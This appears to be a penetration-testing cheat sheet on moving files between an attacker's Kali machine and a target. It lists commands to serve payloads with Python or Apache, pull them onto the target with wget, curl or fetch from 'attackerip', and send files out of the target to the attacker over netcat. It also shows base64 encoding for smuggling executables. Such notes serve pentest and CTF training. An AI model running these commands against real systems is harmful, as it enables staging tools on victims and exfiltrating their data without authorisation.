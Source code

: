 # Python SimpleHTTPServer

## on Attacker

```
python -m SimpleHTTPServer
```

## python3

```
python3 -m http.server
```

## on target

```
wget <attackerip>:8000/filename
```



# Apache

## on Attacker

```
cp filetosend.txt /var/www/html
service apache2 start
```

## on target

```
wget http://attackerip/file
curl http://attackerip/file > file
fetch http://attackerip/file        # on BSD
```



# Netcat (From Target to Kali)

## Listen on Kali

```
nc -lvp 4444 > file
```

## Send from Target machine

```
nc <kali_ip> 4444 < file
```



# Netcat (From Kali to Target)

## on target, wait for the file

```
nc -nvlp 55555 > file
```

## on kali, push the file

```
nc $victimip 55555 < file
```


# Extra:

> To send the executable file to your machine:

base64 executable

- copy the output
- paste it in a file called file.txt
- decode it and create the executable

```
base64 -d file.txt > executable
```
